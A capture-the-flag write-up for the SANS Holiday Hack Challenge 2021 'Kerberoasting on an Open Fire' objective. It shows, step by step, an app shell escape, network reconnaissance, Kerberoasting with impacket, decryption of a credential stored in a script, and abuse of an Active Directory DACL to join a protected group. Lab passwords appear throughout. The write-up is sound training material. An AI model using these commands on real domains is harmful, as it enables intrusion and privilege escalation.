


# Writeup for SANS Holiday Hack Challenge 2021 – Jack’s Back! featuring KringleCon 4: Calling Birds
## 8. Kerberoasting on an Open Fire
### 8.0. Description
Difficulty: :christmas_tree::christmas_tree::christmas_tree::christmas_tree::christmas_tree:   
Obtain the secret sleigh research document from a host on the Elf University domain. What is the first secret ingredient Santa urges each elf and reindeer to consider for a wonderful holiday season? Start by registering as a student on the [ElfU Portal](https://register.elfu.org/). Find Eve Snowshoes in Santa's office for hints.

### 8.1. [Side Challenge - HoHo … No](/08.%20Kerberoasting%20on%20an%20Open%20Fire/08.01.%20Side%20Challenge%20-%20HoHo%20…%20No/README.md)

### 8.2. Hints
**Active Directory Interrogation** - *Eve Snowshoes*: “Investigating Active Directory errors is harder without [Bloodhound](https://github.com/BloodHoundAD/BloodHound), but there are [native methods](https://social.technet.microsoft.com/Forums/en-US/df3bfd33-c070-4a9c-be98-c4da6e591a0a/forum-faq-using-powershell-to-assign-permissions-on-active-directory-objects?forum=winserverpowershell).”  
**Stored Credentials** - *Eve Snowshoes*: “Administrators often store credentials in scripts. These can be coopted by an attacker for other purposes!”  
**CeWL for Wordlist Creation** - *Eve Snowshoes*: “[CeWL](https://github.com/digininja/CeWL) can generate some great wordlists from website, but it will ignore digits in terms by default.”  
**Hashcat Mangling Rules** - *Eve Snowshoes*: “[OneRuleToRuleThemAll.rule](https://github.com/NotSoSecure/password_cracking_rules) is great for mangling when a password dictionary isn't enough.”  
**Finding Domain Controllers** - *Eve Snowshoes*: “There will be some 10.X.X.X networks in your routing tables that may be interesting. Also, consider adding -PS22,445 to your nmap scans to "fix" default probing for unprivileged scans.”  
**Kerberoasting and Hashcat Syntax** - *Eve Snowshoes*: “Learn about [Kerberoasting](https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a) to leverage domain credentials to get usernames and crackable hashes for service accounts.”  
**Kerberoast and AD Abuse Talk** - *Eve Snowshoes*: “Check out [Chris Davis' talk](https://www.youtube.com/watch?v=iMh8FTzepU4) [and scripts](https://github.com/chrisjd20/hhc21_powershell_snippets) on Kerberoasting and Active Directory permissions abuse.”  

### 8.3. Solution
#### 8.3.0. Escaping the grades application
The challenge begins by accessing the URL https://register.elfu.org/register and registering a user:  
  


Once the user is obtained it is possible to `ssh` into `grades.elfu.org` on port `2222` to end up in a CLI application:
```bash
===================================================
=      Elf University Student Grades Portal       =
=          (Reverts Everyday 12am EST)            =
===================================================
1. Print Current Courses/Grades.
e. Exit
:
```

I was able to identify this is a `python` application by using `scp`:
```powershell
PS C:\Users\TheDead\Desktop\KringleCon4> scp -P 2222 dummy uofwoizocg@grades.elfu.org:~/
uofwoizocg@grades.elfu.org's password:
TERM environment variable not set.
[36m===================================================[0m
Traceback (most recent call last):
  File "/opt/grading_system", line 41, in <module>
    main()
  File "/opt/grading_system", line 26, in main
    a = input(": ").lower().strip()
EOFError: EOF when reading a line
>>>
```

I then spent more time than what I would like to admit trying to escape this application…the trick was a simple `CTRL+d`. From the `python` shell it was pretty straightforward to start a `bash` interface:
```bash
===================================================
=      Elf University Student Grades Portal       =
=          (Reverts Everyday 12am EST)            =
===================================================
1. Print Current Courses/Grades.
e. Exit
: Traceback (most recent call last):
  File "/opt/grading_system", line 41, in <module>
    main()
  File "/opt/grading_system", line 26, in main
    a = input(": ").lower().strip()
EOFError
>>> import os;os.system("/bin/bash")
uofwoizocg@grades:~$
```

#### 8.3.1. First reconnaissance
Once obtained a shell I started doing some reconnaissance and finding some juicy information:
```bash
uofwoizocg@grades:~$ route -n
Kernel IP routing table
Destination     Gateway         Genmask         Flags Metric Ref    Use Iface
0.0.0.0         172.17.0.1      0.0.0.0         UG    0      0        0 eth0
10.128.1.0      172.17.0.1      255.255.255.0   UG    0      0        0 eth0
10.128.2.0      172.17.0.1      255.255.255.0   UG    0      0        0 eth0
10.128.3.0      172.17.0.1      255.255.255.0   UG    0      0        0 eth0
172.17.0.0      0.0.0.0         255.255.0.0     U     0      0        0 eth0

uofwoizocg@grades:~$ nmap -Pn 10.128.1.53
Starting Nmap 7.80 ( https://nmap.org ) at 2021-12-28 16:12 UTC
Nmap scan report for hhc21-windows-dc.c.holidayhack2021.internal (10.128.1.53)
Host is up (0.00031s latency).
Not shown: 988 filtered ports
PORT     STATE SERVICE
53/tcp   open  domain
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
636/tcp  open  ldapssl
3268/tcp open  globalcatLDAP
3269/tcp open  globalcatLDAPssl
3389/tcp open  ms-wbt-server

Nmap done: 1 IP address (1 host up) scanned in 4.65 seconds

uofwoizocg@grades:~$ ps -afe
UID        PID  PPID  C STIME TTY          TIME CMD
gjeyonf+  7495  4291  0 16:40 pts/46   00:00:00 /usr/bin/smbclient //172.17.0.3/IPC$
dcvcski+  8135 23557  0 16:40 pts/26   00:00:00 rpcclient 10.128.3.30
kdnyhbb+ 10069  9327  0 16:44 pts/43   00:00:00 /usr/bin/vi ./GetProcessInfo.ps1
gjeyonf+ 12001 11897  0 16:49 pts/21   00:00:00 /usr/bin/smbclient //172.17.0.3/sysvol
bysfqkx+ 12103 25307  0 16:51 pts/8    00:00:00 ps -afe
vdtdiik+ 13272 29053  0 14:21 pts/25   00:00:34 nmap -sT -sV -A -script smb* -p 139,445 172.17.0.4-5
vdtdiik+ 15010  4150 12 14:33 pts/2    00:17:02 nmap --script smb* -p 135,139,445 172.17.0.3
towccjv+ 15470 14972  0 14:37 pts/27   00:00:03 smbclient -U towccjveud -W elfu.local //172.17.0.3/research_dep
bysfqkx+ 17458     1  0 16:33 ?        00:00:00 gpg-agent --homedir /home/bysfqkxdip/.gnupg --use-standard-socket --daemon
vdtdiik+ 19585 15459  0 15:20 pts/31   00:00:35 nmap -sT -vvv -p20-140 172.17.0.0/16
yelnbnm+ 25102 24676  0 15:58 pts/28   00:00:10 nmap -sC -Pn -oG 10.128.1.x.txt 10.128.1.0/24
rhxgztt+ 26813  8913  0 16:16 pts/0    00:00:00 smbclient \\SHARE30\elfu_svc_shr\ -U elfu_svc Snow2021!
rhxgztt+ 27601 27600  0 16:22 pts/0    00:00:00 /usr/bin/pager /tmp/smbmore.SYACbH
rhxgztt+ 27934  8913  0 16:25 pts/0    00:00:00 smbclient \\SHARE30\elfu_svc_shr\ -U elfu_svc Snow2021!
rhxgztt+ 28037 28036  0 16:25 pts/0    00:00:00 /usr/bin/pager /tmp/smbmore.EwDSnp

uofwoizocg@grades:~$ rpcclient //10.128.3.30
Enter WORKGROUP\uofwoizocg’s password:

rpcclient $> srvinfo
        SHARE30        Wk Sv PrQ Unx NT SNT Samba 4.3.11-Ubuntu
        platform_id     :       500
        os version      :       6.1
        server type     :       0x809a03

rpcclient $> querydominfo
Domain:         ELFU
Server:
Comment:
Total Users:    519
Total Groups:   18
Total Aliases:  33
Sequence No:    0
Force Logoff:   -1
Domain Server State:    0x0
Server Role:    ROLE_DOMAIN_BDC
Unknown 3:      0x0

rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[admin] rid:[0x3e8]
user:[elfu_admin] rid:[0x450]
user:[elfu_svc] rid:[0x451]
user:[remote_elf] rid:[0x452]
## Output removed to shorten report, there were 274 more users

rpcclient $> enumdomgroups
group:[Enterprise Read-only Domain Controllers] rid:[0x1f2]
group:[Domain Admins] rid:[0x200]
group:[Domain Users] rid:[0x201]
group:[Domain Guests] rid:[0x202]
group:[Domain Computers] rid:[0x203]
group:[Domain Controllers] rid:[0x204]
group:[Schema Admins] rid:[0x206]
group:[Enterprise Admins] rid:[0x207]
group:[Group Policy Creator Owners] rid:[0x208]
group:[Read-only Domain Controllers] rid:[0x209]
group:[Cloneable Domain Controllers] rid:[0x20a]
group:[Protected Users] rid:[0x20d]
group:[Key Admins] rid:[0x20e]
group:[Enterprise Key Admins] rid:[0x20f]
group:[DnsUpdateProxy] rid:[0x44f]
group:[RemoteManagementDomainUsers] rid:[0x453]
group:[ResearchDepartment] rid:[0x454]
group:[File Shares] rid:[0x5e7]
```

As per the `ps` output, user `rhxgztt+` was trying to open a `smbclient` connection to `\\SHARE30\elfu_svc_shr` with user `elfu_svc` and password `Snow2021!`.

#### 8.3.2. elfu_svc credentials
Knowing that it wouldn’t be a proper challenge if I just went ahead and used those credentials, I at least tried to see where they came from.
I noticed that the [impacket](https://github.com/SecureAuthCorp/impacket) tools are installed on the machine and went ahead executing `GetUserSPNs` obtaining a ticket for the `elfu_svc` user:
```bash
uofwoizocg@grades:~$ GetUserSPNs.py -request -outputfile tkt -save elfu.local/rqmcjgirxi
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

Password:
ServicePrincipalName                 Name      MemberOf  PasswordLastSet             LastLogon                   Delegation
-----------------------------------  --------  --------  --------------------------  --------------------------  ----------
ldap/elfu_svc/elfu                   elfu_svc            2021-10-29 19:25:04.305279  2021-12-31 09:12:08.025904
ldap/elfu_svc/elfu.local             elfu_svc            2021-10-29 19:25:04.305279  2021-12-31 09:12:08.025904
ldap/elfu_svc.elfu.local/elfu        elfu_svc            2021-10-29 19:25:04.305279  2021-12-31 09:12:08.025904
ldap/elfu_svc.elfu.local/elfu.local  elfu_svc            2021-10-29 19:25:04.305279  2021-12-31 09:12:08.025904

uofwoizocg@grades:~$ cat tkt
$krb5tgs$23$*elfu_svc$ELFU.LOCAL$elfu.local/elfu_svc*$076671972d080d946d22495b171c097c$7c38acab46a23c33e5cbce2b240b388e743dd9c5ee727c7921f270749e3e13c632e14b7c82d11182a7db0901f6b472bf3de98e4244a433466b7fe9dfabe52d365ad76f681e4e88800c7b85fd780ee8449ec0115725a50a4ff4c176df4298d416922bc05e8d712bed849fd249b4cba2595fe7d7e0e2256665e68c6ba96cddbace41eedd4d54e06b444485a34dcb1c12d9fbae26cc0032d91c94f498ee80eda277678ad127d73dc7761d3e3b5c4694bc2d5eab2fb1f7ed31787c8cfeeb3876614f47f27a04426005d7d60952e94049167dce609ce69d897a3587fd83af255a45bd059ccbc8da73f5447c40c9011c171bf93e5a7eab671671a1cdfaae1f79a6a68fee0f8a019c6ae2eb390a49290f8a16785e5b48c6228c4f58a7c4c95a35c3f6b6ba9e5a0d7ec9693fa4f31c1d4b8009077305a909182026be1a4eb7147871908e9cbb46011478f61946ffbd888c6cf23b9dc607a2685b16709e009e04e07d5cf12b13de4393da826a828d843c5e83b780f7b9d3777de5628488565cae519a9614efd65eb8524e2b47d6927b091b4c3ca1f432009a02da582ade1c973340a0f9a59fb011a7d69d9766b6e9852503c3688d253ff6a1052fe5314c58249a2b1311c9532ca06c75f0d568ec13990e32ba7a0633e237190b1c568a39ee2f1ea5ffc9b6b9fd48c4f4af4d4235ec84e70ab47aedc4df5950e299a8d3cf396b8ffc2a2b27beee10b225397937afb1cfbc086ae40c4135a38c51c75081f06c70a0cbd62d2394596c70b42358948531ecf82df46deb89525b62f4384f0481652e98a50fbdcf343ddbd8ccc55b3b026778633246e61ee1db995e0c375e7a4744ccee884bd0090dc92774f399fc95d1176fc36a5baa1edc4645b978ee728d56df515e6d62f6fac5814893c6a60f606c860426cf07a9b584cb8a7328bff20f347d11d8d478201ffe2d4675a41ae882881506ff167b44a0d7931e472ee327e0d0872aa44d5970a1fad64e9e2d9099e99688d1fa5870852d697fd56dc308a28cac943d560d502ab491630d983ad1530fcc1186f3e29046d3c712292a66cf61dc9992b2248fcfb34e447cfad412e3ca9231194b2ea63100d74169d7b28f4e7f1b58bbeead50ac078e542e4c65753ef0774153393ee4ca7641a775ee84eebd9e55bb33e7a3a4add11aee46ef6352402e96383dacdc28cb36146f5c62875130fdef8a3aa74746458f05ef9d71a6f0e2bd02e13946e1eeaf13d9407127c160e6f633f746ac4d8a8c99337090ef53838409b57876b4aba4e6672341a37fd3e9801ff671305c6fafd24cf78eeab0bb49ae239761c3f39e9b7f06a337603214e1d7ae05dbe7de6f3aa47eecc5f1a58d451416e785a5b6201d0b60d8be7ec0f67f09f7e064fbf68f8eb3c1a5e12432b1c60dbf52a664529d6612eee776504c6943716e07642655d5fe20b65d59f448bc34
```

Trying to crack it with the [rockyou](https://github.com/praetorian-inc/Hob0Rules) wordlist didn’t lead to useful results. At that point, doing some more reconnaissance, I started accessing port `80` of neighbor servers with `curl` and noticed they serve the web page for https://register.elfu.org/register that contained a comment on karaoke:
```html
<!-- Remember the groups battling to win the karaoke contest earleir this year? I think they were rocks4socks, cookiepella, asnow2021, v0calprezents, Hexatonics, and reindeers4fears. Wow, good times! -->
```

Given the password is `Snow2021!`, the hints about `CeWL` and `hashcat` mangling I assume that the wordlist was generated on the website content and applied the mangling to get an entry like that from `asnow2021`.

Finding where the credentials come from was enough for me to just proceed toward the challenge objective, sorry `¯\_(ツ)_/¯`.

#### 8.3.3. elfu_svc_shr share
I copied [smbmap.py](https://github.com/ShawnDEvans/smbmap) onto the grades machine and nudging around with the `elfu_svc` credentials it was possible to identify the share `elfu_svc_shr`:
```bash
uofwoizocg@grades:~$ python3 smbmap.py -H 10.128.3.30 -u elfu_svc -p 'Snow2021!'
    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
 -----------------------------------------------------------------------------
     SMBMap - Samba Share Enumerator | Shawn Evans - ShawnDEvans@gmail.com
                     https://github.com/ShawnDEvans/smbmap


[+] IP: 10.128.3.30:445 Name: 10.128.3.30               Status: Authenticated
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        netlogon                                                READ ONLY
        sysvol                                                  READ ONLY
        elfu_svc_shr                                            READ ONLY       elfu_svc_shr
        research_dep                                            NO ACCESS       research_dep
        IPC$                                                    NO ACCESS       IPC Service (Samba 4.3.11-Ubuntu)
```

Once downloaded the content, I used `grep` to search some keywords noticing the file `GetProcessInfo.ps1`:
```powershell
$SecStringPassword = "76492d1116743f0423413b16050a5345MgB8AGcAcQBmAEIAMgBiAHUAMwA5AGIAbQBuAGwAdQAwAEIATgAwAEoAWQBuAGcAPQA9AHwANgA5ADgAMQA1ADIANABmAGIAMAA1AGQAOQA0AGMANQBlADYAZAA2ADEAMgA3AGIANwAxAGUAZgA2AGYAOQBiAGYAMwBjADEAYwA5AGQANABlAGMAZAA1ADUAZAAxADUANwAxADMAYwA0ADUAMwAwAGQANQA5ADEAYQBlADYAZAAzADUAMAA3AGIAYwA2AGEANQAxADAAZAA2ADcANwBlAGUAZQBlADcAMABjAGUANQAxADEANgA5ADQANwA2AGEA"
$aPass = $SecStringPassword | ConvertTo-SecureString -Key 2,3,1,6,2,8,9,9,4,3,4,5,6,8,7,7
$aCred = New-Object System.Management.Automation.PSCredential -ArgumentList ("elfu.local\remote_elf", $aPass)
Invoke-Command -ComputerName 10.128.1.53 -ScriptBlock { Get-Process } -Credential $aCred -Authentication Negotiate
```

Using `powershell` in the grades machine and the commands from `GetProcessInfo.ps1` I was able to open a remote session to `10.128.1.53`:
```powershell
PS /home/uofwoizocg> $SecStringPassword = "76492d1116743f0423413b16050a5345MgB8AGcAcQBmAEIAMgBiAHUAMwA5AGIAbQBuAGwAdQAwAEIATgAwAEoAWQBuAGcAPQA9AHwANgA5ADgAMQA1ADIANABmAGIAMAA1AGQAOQA0AGMANQBlADYAZAA2ADEAMgA3AGIANwAxAGUAZgA2AGYAOQBiAGYAMwBjADEAYwA5AGQANABlAGMAZAA1ADUAZAAxADUANwAxADMAYwA0ADUAMwAwAGQANQA5ADEAYQBlADYAZAAzADUAMAA3AGIAYwA2AGEANQAxADAAZAA2ADcANwBlAGUAZQBlADcAMABjAGUANQAxADEANgA5ADQANwA2AGEA"
PS /home/uofwoizocg> $aPass = $SecStringPassword | ConvertTo-SecureString -Key 2,3,1,6,2,8,9,9,4,3,4,5,6,8,7,7
PS /home/uofwoizocg> $aCred = New-Object System.Management.Automation.PSCredential -ArgumentList ("elfu.local\remote_elf", $aPass)
PS /home/uofwoizocg> Enter-PSSession -Credential $aCred -ComputerName 10.128.1.53
[10.128.1.53]: PS C:\Users\remote_elf\Documents>
```

#### 8.3.4. More reconnaissance
Trying to find an exploitable group as per Chris Davis’ talk, I eventually ended up observing that the `remote_elf` user has `WriteDacl` permissions on group `Research Department`:
```
[10.128.1.53]: PS C:\Users\remote_elf\Documents> $ldapConnString = "LDAP://CN=Research Department,CN=Users,DC=elfu,DC=local"
[10.128.1.53]: PS C:\Users\remote_elf\Documents> $domainDirEntry = New-Object System.DirectoryServices.DirectoryEntry $ldapConnString
[10.128.1.53]: PS C:\Users\remote_elf\Documents> $domainDirEntry.get_ObjectSecurity().Access
## Output removed to shorten report
ActiveDirectoryRights : WriteDacl
InheritanceType       : None
ObjectType            : 00000000-0000-0000-0000-000000000000
InheritedObjectType   : 00000000-0000-0000-0000-000000000000
ObjectFlags           : None
AccessControlType     : Allow
IdentityReference     : ELFU\remote_elf
IsInherited           : False
InheritanceFlags      : None
PropagationFlags      : None
## Output removed to shorten report
```

#### 8.3.5. Adding user to the group
I then added my user, `uofwoizocg`, to the `Research Department` group using Chris Davis’ method:
```powershell
[10.128.1.53]: PS C:\Users\remote_elf\Documents> Add-Type -AssemblyName System.DirectoryServices
[10.128.1.53]: PS C:\Users\remote_elf\Documents> $ldapConnString = "LDAP://CN=Research Department,CN=Users,DC=elfu,DC=local"
[10.128.1.53]: PS C:\Users\remote_elf\Documents> $username = "uofwoizocg"
[10.128.1.53]: PS C:\Users\remote_elf\Documents> $nullGUID = [guid]'00000000-0000-0000-0000-000000000000'
[10.128.1.53]: PS C:\Users\remote_elf\Documents> $propGUID = [guid]'00000000-0000-0000-0000-000000000000'
[10.128.1.53]: PS C:\Users\remote_elf\Documents> $IdentityReference = (New-Object System.Security.Principal.NTAccount("elfu.local\$username")).Translate([System.Security.Principal.SecurityIdentifier])
[10.128.1.53]: PS C:\Users\remote_elf\Documents> $inheritanceType = [System.DirectoryServices.ActiveDirectorySecurityInheritance]::None
[10.128.1.53]: PS C:\Users\remote_elf\Documents> $ACE = New-Object System.DirectoryServices.ActiveDirectoryAccessRule $IdentityReference, ([System.DirectoryServices.ActiveDirectoryRights] "GenericAll"), ([System.Security.AccessControl.AccessControlType] "Allow"), $propGUID, $inheritanceType, $nullGUID
[10.128.1.53]: PS C:\Users\remote_elf\Documents> $domainDirEntry = New-Object System.DirectoryServices.DirectoryEntry $ldapConnString
[10.128.1.53]: PS C:\Users\remote_elf\Documents> $secOptions = $domainDirEntry.get_Options()
[10.128.1.53]: PS C:\Users\remote_elf\Documents> $secOptions.SecurityMasks = [System.DirectoryServices.SecurityMasks]::Dacl
[10.128.1.53]: PS C:\Users\remote_elf\Documents> $domainDirEntry.RefreshCache()
[10.128.1.53]: PS C:\Users\remote_elf\Documents> $domainDirEntry.get_ObjectSecurity().AddAccessRule($ACE)
[10.128.1.53]: PS C:\Users\remote_elf\Documents> $domainDirEntry.CommitChanges()
[10.128.1.53]: PS C:\Users\remote_elf\Documents> $domainDirEntry.dispose()

[10.128.1.53]: PS C:\Users\remote_elf\Documents> Add-Type -AssemblyName System.DirectoryServices
[10.128.1.53]: PS C:\Users\remote_elf\Documents> $ldapConnString = "LDAP://CN=Research Department,CN=Users,DC=elfu,DC=local"
[10.128.1.53]: PS C:\Users\remote_elf\Documents> $username = "uofwoizocg"
[10.128.1.53]: PS C:\Users\remote_elf\Documents> $password = "Lfxsqhcci#"
[10.128.1.53]: PS C:\Users\remote_elf\Documents> $domainDirEntry = New-Object System.DirectoryServices.DirectoryEntry $ldapConnString, $username, $password
[10.128.1.53]: PS C:\Users\remote_elf\Documents> $user = New-Object System.Security.Principal.NTAccount("elfu.local\$username")
[10.128.1.53]: PS C:\Users\remote_elf\Documents> $sid=$user.Translate([System.Security.Principal.SecurityIdentifier])
[10.128.1.53]: PS C:\Users\remote_elf\Documents> $b=New-Object byte[] $sid.BinaryLength
[10.128.1.53]: PS C:\Users\remote_elf\Documents> $sid.GetBinaryForm($b,0)
[10.128.1.53]: PS C:\Users\remote_elf\Documents> $hexSID=[BitConverter]::ToString($b).Replace('-','')
[10.128.1.53]: PS C:\Users\remote_elf\Documents> $domainDirEntry.Add("LDAP://<SID=$hexSID>")
[10.128.1.53]: PS C:\Users\remote_elf\Documents> $domainDirEntry.CommitChanges()
[10.128.1.53]: PS C:\Users\remote_elf\Documents> $domainDirEntry.dispose()

[10.128.1.53]: PS C:\Users\remote_elf\Documents> $ldapConnString = "LDAP://CN=Research Department,CN=Users,DC=elfu,DC=local"
[10.128.1.53]: PS C:\Users\remote_elf\Documents> $domainDirEntry = New-Object System.DirectoryServices.DirectoryEntry $ldapConnString
[10.128.1.53]: PS C:\Users\remote_elf\Documents> $domainDirEntry.get_ObjectSecurity().Access
## Output removed to shorten report
ActiveDirectoryRights : GenericAll
InheritanceType       : None
ObjectType            : 00000000-0000-0000-0000-000000000000
InheritedObjectType   : 00000000-0000-0000-0000-000000000000
ObjectFlags           : None
AccessControlType     : Allow
IdentityReference     : ELFU\uofwoizocg
IsInherited           : False
InheritanceFlags      : None
PropagationFlags      : None
## Output removed to shorten report
```

#### 8.3.6. Obtaining the flag
Once added the user to the group I was able to access the share `research_dep` and obtain the `SantaSecretToAWonderfulHolidaySeason.pdf` file:
```
uofwoizocg@grades:~$ smbclient \\\\10.128.3.30\\research_dep
Enter WORKGROUP\uofwoizocg's password:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Dec  2 16:39:42 2021
  ..                                  D        0  Fri Jan  7 08:01:37 2022
  SantaSecretToAWonderfulHolidaySeason.pdf      N   173932  Thu Dec  2 16:38:26 2021

                41089256 blocks of size 1024. 34909004 blocks available
```

The file is available here: [05_SantaSecretToAWonderfulHolidaySeason.pdf](05_SantaSecretToAWonderfulHolidaySeason.pdf)

The answer to the challenge is: `Kindness`

### 8.4. Kudos!
#### 8.4.0. Escaping the grades app, @DP
Thank you to @DP for telling me the secret in escaping the grades app:
“Honestly, you're better of just mashing the keyboard to see what happens or headbutting it (if you're that frustrated)”
#### 8.4.1. The password of remote_elf user, [@matt115](https://github.com/matt115)
My friend [@matt115](https://github.com/matt115) was also able to extract the password `A1d655f7f5d98b10!` for user `elfu.local\remote_elf`, but he didn’t tell me how :)
#### 8.4.2. WWDD, @DP
Thanks to @DP for making me notice that MAYBE Domain Admins is not alway the target, something like “[BeSanta](https://github.com/LamonatoAndrea/KringleCon3/blob/main/10.%20Defeat%20Fingerprint%20Sensor/README.md#102-because-sometimes-root-is-not-the-way)” :)


---
### 8.1. [Side Challenge - HoHo … No](/08.%20Kerberoasting%20on%20an%20Open%20Fire/08.01.%20Side%20Challenge%20-%20HoHo%20…%20No/README.md)
## 9. [Splunk!](/09.%20Splunk!/README.md)
### 9.1. [Side Challenge - Yara Analysis](/09.%20Splunk!/09.01.%20Yara%20Analisys/README.md)
## 10. [Now Hiring!](/10.%20Now%20Hiring!/README.md)
### 10.1. [Side Challenge - IMDS Exploration](/10.%20Now%20Hiring!/10.01%20IMDS%20Exploration/README.md)
## 11. [Customer Complaint Analysis](/11.%20Customer%20Complaint%20Analysis/README.md)
### 11.1. [Side Challenge - Strace Ltrace Retrace](/11.%20Customer%20Complaint%20Analysis/11.01%20Side%20Challenge%20-%20Strace%20Ltrace%20Retrace/README.md)
## 12. [Frost Tower Website Checkup](/12.%20Frost%20Tower%20Website%20Checkup/README.md)
### 12.1. [Side Challenge - The Elf C0de Python Edition](/12.%20Frost%20Tower%20Website%20Checkup/12.01.%20Side%20Challenge%20-%20The%20Elf%20C0de%20Python%20Edition/README.md)
## 13. [FPGA Programming](/13.%20FPGA%20Programming/README.md)
### 13.1. [Side Challenge - Frostavator](/13.%20FPGA%20Programming/13.01.%20Side%20Challenge%20-%20Frostavator/README.md)
## 14. [Bonus! Blue Log4Jack](/14.%20Bonus!%20Blue%20Log4Jack/README.md)
## 15. [Bonus! Red Log4Jack](/15.%20Bonus!%20Red%20Log4Jack/README.md)
## 16. [That’s how Jack came from space](/README.md#16-thats-how-jack-came-from-space)
## 17. [Narrative](/README.md#17-narrative)
## 18. [Conclusions](/README.md#18-conclusions)
---
## 0. [windovo\\thedead> whoami](/README.md)
## 1. [KringleCon Orientation](/01.%20KringleCon%20Orientation/README.md)
## 2. [Where in the World is Caramel Santiaigo?](/02.%20Where%20in%20the%20World%20is%20Caramel%20Santiaigo/README.md)
### 2.1. [Side Challenge - Exif Metadata](/02.%20Where%20in%20the%20World%20is%20Caramel%20Santiaigo/02.01.%20Side%20Challenge%20-%20Exif%20Metadata/README.md)
## 3. [Thaw Frost Tower's Entrance](/03.%20Thaw%20Frost%20Tower's%20Entrance/README.md)
### 3.1. [Side Challenge - Grepping for Gold](/03.%20Thaw%20Frost%20Tower's%20Entrance/03.01.%20Grepping%20for%20Gold/README.md)
## 4. [Slot Machine Investigation](/04.%20Slot%20Machine%20Investigation/README.md)
### 4.1. [Side Challenge - Logic Munchers](/04.%20Slot%20Machine%20Investigation/04.01.%20Side%20Challenge%20-%20Logic%20Munchers/README.md)
## 5. [Strange USB Device](/05.%20Strange%20USB%20Device/README.md)
### 5.1. [Side Challenge - IPv6 Sandbox](/05.%20Strange%20USB%20Device/05.01.%20Side%20Challenge%20-%20IPv6%20Sandbox/README.md)
## 6. [Shellcode Primer](/06.%20Shellcode%20Primer/README.md)
### 6.1. [Side Challenge - Holiday Hero](/06.%20Shellcode%20Primer/06.01.%20Side%20Challenge%20-%20Holiday%20Hero/README.md)
## 7. [Printer Exploitation](/07.%20Printer%20Exploitation/README.md)